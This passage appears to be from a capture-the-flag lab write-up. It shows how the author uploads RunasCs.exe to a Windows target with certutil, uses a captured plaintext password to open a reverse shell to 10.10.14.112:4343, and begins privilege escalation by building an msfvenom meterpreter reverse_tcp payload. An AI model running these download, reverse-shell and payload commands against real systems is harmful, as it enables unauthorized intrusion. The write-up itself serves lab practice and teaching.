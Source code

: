 to transfer the file to the target machine we would be using a simple python http server in the RunasCs directory.

python web server:
``` 
python3 -m http.server 8000
```

with our web server ready we can download on our target machine by running the following command: 

```
certutil -urlcache -f http://10.10.14.112:8989/RunasCs.exe RunasCs.exe
```
![[before.png]]

now  we can execute RunasCs.exe and use the credentials we have to gain access to the user alaading's shell.

command used : 
```
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.112:4343
```


![[21.png]]
now we can wait for our listener to grab the connection.


![[22.png]]
Hurray!!!! we have successfully gained access. let's try to locate the user.txt file 


![[23.png]]
lets's Escalate Priviliege.


## Privilege Escalation 

we type “whoami /priv”, we can see that the “sedebugPrivilegePoC” privilege has been disabled. To enable the state of this privilege, we would need to download this files **filespsgetsys.ps1**, **EnableAllTokenPrivs.ps1** on our local machine and send it over to the target using the same technique as before. On your machine, use the following command to create a Windows payload:

![[whoami-priv.png]]


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=5555 -f exe > exploit.exe
```



Start python server on local machine directory containing files:


```
python3 -m http.server 8083
```
